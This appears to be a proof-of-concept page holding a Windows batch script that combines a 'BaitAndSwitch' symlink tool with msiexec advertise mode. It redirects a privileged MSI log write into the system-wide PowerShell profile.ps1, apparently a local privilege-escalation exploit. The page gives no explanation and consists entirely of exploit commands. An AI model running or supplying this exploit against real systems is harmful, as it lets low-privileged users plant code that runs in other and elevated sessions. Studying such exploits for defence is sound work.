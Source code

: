 POC
---

    @echo off
    REM Put BaitAndSwitch, example.msi into C:\temp
    echo > C:\temp\fakelog.txt
    start C:\temp\BaitAndSwitch C:\temp\linkdir\link C:\temp\fakelog.txt C:\Windows\System32\WindowsPowerShell\v1.0\profile.ps1
    timeout /t 1
    msiexec /j C:\temp\example.msi /t ksz /Li! C:\temp\linkdir\link /qn